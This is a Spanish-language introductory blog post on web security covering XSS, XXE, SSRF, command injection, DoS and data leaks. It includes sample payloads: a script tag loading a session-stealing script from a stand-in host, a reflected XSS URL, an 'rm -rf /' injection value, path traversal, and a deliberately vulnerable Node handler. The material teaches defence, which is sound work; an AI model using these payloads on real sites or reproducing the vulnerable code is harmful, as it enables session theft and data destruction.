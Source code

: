 ```yaml
---
title: "Seguridad en la web"
description: La seguridad web es la práctica de implementar medidas para proteger un sitio web haciendolo más díficil de vulnerar.
date: 2021-04-15
cover: https://res.cloudinary.com/marcomadera/image/upload/v1618515494/Blog/seguridad-web/security_2_prgizu.png
author: Marco Madera
tags:
  - Seguridad
  - Web
---
```


![Alerta mimic site a la derecha](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_271,w_319/v1618256076/Blog/seguridad-web/Ingenier%C3%ADa_social_yav5tv.png)

Te llega un correo electrónico que parece proceder de tu banco u otro servicio popular de internet como Google. Te solicita que confirmes información sensible sobre tu cuenta. El correo electrónico parece legítimo, ninguna señal de alerta del servicio de que el correo pueda ser peligroso o spam. El link parece muy realista tiene HTTPS, entonces das clic al link para saber más. Entras a la página, pero no carga porque te interrumpe una alerta del sitio y te das cuenta de que pudiste ser víctima de phishing.

## ¿Qué es la seguridad Web?

La seguridad web es la práctica de implementar medidas para proteger un sitio web haciéndolo más difícil de vulnerar. Es necesaria para proteger un sitio web contra el robo de datos y mantener una reputación con tus usuarios.

Existen muchas razones para que tu sitio web sea vulnerable, de las cuales vamos a poner unas cuantas sobre la mesa.

## Manejo de datos

La validación de datos es el paso que verifica las entradas de usuario. En este paso se asegura que los datos sean los requeridos para que puedan ser procesados correctamente y se ingresen en una base de datos.

Si no se hace correctamente este paso se pueden tener datos corruptos. Por ejemplo en tu lista de canciones favoritas de Spotify puede que tengas datos nulos o tener un usuario de Twitter sin nombre de usuario como es el siguiente caso.

<tweet id="1379691085514047490"></tweet>

<tweet id="1396196807173099524" caption="[Actualización: 22 Mayo 21] A partir de está fecha se le asignó un nombre de usuario, lo cual ya pasaba en las aplicaciones móbiles cambiando cada cierto tiempo."></tweet>

Un mal manejo de datos es una vulnerabilidad potencial. Enviar datos que no son necesarios al *frontend* puede ser un error por ejemplo si tienes un examen con la siguiente estructura.

```json
{
  test: [
    {
      question: "¿Qué url es más segura?",
      anwers: [
        {
          text: "https://googIe.com",
          correct: true,
        },
        {
          text: "http://www.google.com",
          correct: false,
        },
      ]
    },
  ],
}
```

Estos datos en el lado del cliente (*frontend*) pueden ser expuestos para revelar las respuestas correctas. Un mejor manejo podría ser que cada vez el usuario responda una pregunta se haga una petición al servidor para saber si es acertada la respuesta del usuario y actuar conforme al resultado. Similar si fueran números de tarjetas de crédito. Puede que no sea necesario enviar el número completo sino los últimos 4 dígitos si el usuario decide revelarlo o como sea conveniente.

## Cross-site scripting (XSS)

Tal vez te suene si has visto una alerta en algunos sitios web en la consola.

![Alerta xss](https://res.cloudinary.com/marcomadera/image/upload/q_auto,f_auto,c_scale,h_227,w_705/v1618249299/Blog/seguridad-web/self-xss_axzj76.png)

Esta es una vulnerabilidad de XSS y ocurre cuando se inyecta código en el cliente. Existe dos tipos: persistente y no persistente.

Imagina que la sección de comentarios de este post aceptara etiquetas HTML como la de `<script>`. Se pudiera comentar algo como lo siguiente: `<script src="http://sitioweb/robarsesiones.js">`. Entonces el script se ejecutará cada vez que alguien abra el post. Este es un tipo de ataque persistente porque está inyectado de manera permanente en el sitio web.

Un ejemplo no persistente sería si al tener un buscador no validar la query, permitir que la siguiente URL `https://marcomadera.com/search?q=<script%20type='application/javascript'>alert('xss');</script>` ejecute el código.

El siguiente ejemplo de crear un tweet que se hace retweet cada vez que aparece en pantalla, sería persistente en cuanto aparezca en el *feed* de una persona haría retweet por si solo.

<youtube id="zv0kZKC6GAM"></youtube>

## XML External Entity (XXE)

Un ataque de entidades externas es el tipo de ataque que abusa del procesador de xml.

> Este ataque puede conducir a la divulgación de datos confidenciales, denegación de servicio, falsificación de solicitudes del lado del servidor, escaneo de puertos desde la perspectiva de la máquina donde se encuentra el analizador y otros impactos del sistema. - [Wikipedia](https://en.wikipedia.org/wiki/XML_external_entity_attack)

En el sitio *secrets of app security* hay un ejemplo claro de un ataque con saml para interceptar solicitudes y remplazarla con tu código [Ataque XXE](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html).

Puede que recuerdes el mensaje del punto negro de WhatsApp y iMessage. Este es un ataque de este tipo que tenía oculto múltiples entidades `&lrm;` que cambian la dirección del texto y que el procesador de xml no podía soportar. Otro ataque similar a este es el llamado [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) que usa entidades `&lol;`.

<tweet id="994230605859651584" caption="El mensaje contenía multiples entidades de dirección del texto &lrm, que sobrecargaban la memoría y hacía que la app dejará de responder" ></tweet>

## Server-side request forgery (SSRF)

En este tipo de ataque el atacador abusa de la funcionalidad del servidor para utilizar los recursos internos de este.

En una situación normal el *frontend* de una tienda puede hacer llamadas al servidor para saber si un producto está disponible `http://storeapi.api/product/check`, el atacante hace peticiones al servidor modificando ese *endpoint*, por ejemplo al mismo `http://localhost/admin` abusando de la confianza.

<videogif title="Server Request" src="https://res.cloudinary.com/marcomadera/video/upload/v1618513408/Blog/seguridad-web/server_clic_twfhas.mp4"></videogif>

## Inyección de comandos

Un ataque de inyección de comandos puede ocurrir porque el servidor no valida el input del usuario antes de usarlo en la línea de comandos.

El siguiente ejemplo es un lector de archivos vulnerable que devuelve el contenido del archivo, el usuario puede insertar algo como `"filename.pdf rm -rf /"` y borrar el contenido del servidor entero o dirigirse a una ruta `"../passwords"` provocando un ataque transversal de directorio.

```javascript
app.get('/viewer', (req, res) => {
  const { filename } = req.query;
  try {
    const stdout = childProcess.execSync('cat folder/' + filename);
    res.send(stdout.toString());
  } catch (err) {
    res.send(err.toString());
  }
});
```

## Ataque de denegación de servicio (DoS)

El objetivo de este ataque es la sobrecarga de los recursos del sistema para que sea inaccesible a los usuarios. La manera en que funciona es que satura los puertos con más datos de los que puede soportar, entonces al no poder con tantas solicitudes deniega el acceso a los demás usuarios.

Estos ataques son comunes por su facilidad de explotar. Existen servicios como Google Cloud Armor y CloudFlare para proteger el sitio web.

## Robo de sesión

Esta explotación es para un obtener acceso no autorizado a información o servicios regularmente teniendo acceso a las cookies y robándolas para así autenticarse.

<youtube id="UR_i5XSAKrg" ></tweet>

## Filtración de datos

Este mes se puso a disposición para descargar datos de más de 500 millones de usuarios de Facebook, los datos se obtuvieron explotando una vulnerabilidad.

La legislación mexicana obliga a las empresas que tratan con datos personales, a notificar vulneraciones de los datos de los titulares.

> Las vulneraciones de seguridad ocurridas en cualquier fase del tratamiento que afecten de forma significativa los derechos patrimoniales o morales de los titulares, serán informadas de forma inmediata por el responsable al titular, a fin de que este último pueda tomar las medidas correspondientes a la defensa de sus derechos - [Artículo 20 - Ley federal de protección de datos personales en posesión de los particulares](http://www.diputados.gob.mx/LeyesBiblio/pdf/LFPDPPP.pdf)

Así como en esta vulnerabilidad mis datos se han visto comprometidos en otras 6 empresas como Bookmate, Nitro, Wattpad y YouNow. De ninguna he tenido ningún aviso para tomar alguna precaución. Por suerte existen páginas como [haveibeenpwned](https://haveibeenpwned.com/) donde te puedes enterar si has sido víctima de estas vulneraciones.

Otra filtración reciente fue sobre el funcionamiento del navegador de Brave en modo privado con Tor. El funcionamiento es que oculta tu identidad al navegar, pero el navegador enviaba las direcciones que visitabas al proveedor DNS en lugar de enviarlo a los servidores de Tor.

<tweet id="1362737949872431108" ></tweet>

## Programas de recompensas

Algunas empresas tienen programas de recompensas para quienes encuentren vulnerabilidades en sus servicios.

- [Microsoft](https://www.microsoft.com/en-us/msrc/bounty-microsoft-identity?rtc=1)
- [Facebook](https://www.facebook.com/whitehat)
- [Google](https://www.google.com/about/appsecurity/reward-program/)

<tweet id="1366767274720329729" ></tweet>

## Conclusión

Los riesgos en la seguridad web se pueden presentar en diferentes formas. Estos cambian rápidamente y se requiere revisar continuamente. Esta es una práctica continua durante todo el proceso donde se deben de mantener buenas prácticas de seguridad, actualizar librerias, analizar cómo mejorar los canales de desarrollo automatizando la seguridad para que no retrase el proyecto en desarrollo.
